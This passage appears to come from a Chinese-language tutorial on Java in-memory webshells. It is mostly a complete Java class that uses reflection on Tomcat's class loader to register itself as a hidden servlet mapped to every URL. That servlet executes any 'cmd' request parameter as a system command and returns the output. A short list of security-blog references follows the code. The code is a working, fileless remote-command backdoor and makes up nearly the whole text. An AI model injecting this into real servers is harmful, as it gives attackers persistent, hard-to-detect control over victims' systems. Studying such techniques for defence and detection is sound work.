import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * 使用 Thread 注入 Tomcat Servlet 型内存马
 */
public class MSTomcatFromThread implements Servlet {

    private final String cmdParamName = "cmd";
    private final static String pattern = "/*";

    static {
        try {
            String servletName = String.valueOf(System.nanoTime());

            // 获取 standardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);

                standardContext = (StandardContext) field2.get(root);
            }


            if (standardContext.findChild(servletName) == null) {
                Wrapper wrapper = standardContext.createWrapper();
                wrapper.setName(servletName);
                standardContext.addChild(wrapper);
                Servlet servlet = new MSTomcatFromThread();

                wrapper.setServletClass(servlet.getClass().getName());
                wrapper.setServlet(servlet);
                ServletRegistration.Dynamic registration = new ApplicationServletRegistration(wrapper, standardContext);
                registration.addMapping(pattern);
            }
        } catch (Exception ignored) {
        }
    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
        System.out.println(
                "TomcatShellInject serlvet.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {
    }
}
```

# 参考资料
- [Java Web服务器原理综述 - 掘金](https://juejin.cn/post/7224330515536183353)
- [Java安全学习——内存马 - 枫のBlog](https://goodapple.top/archives/1355)
- [JAVA内存马的“一生” - 先知社区](https://xz.aliyun.com/t/11003#toc-9)
- [【内存马】- 通过反序列化漏洞注入内存马 - 知乎](https://zhuanlan.zhihu.com/p/582025918)
- [Java内存马：一种Tomcat全版本获取StandardContext的新方法 - 先知社区](https://xz.aliyun.com/t/9914#toc-5)
- [【Tomcat学习笔记】9-ClassLoader | 谢晞鸣的博客](https://fdx321.github.io/2017/05/30/%E3%80%90Tomcat%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0%E3%80%919-ClassLoader/)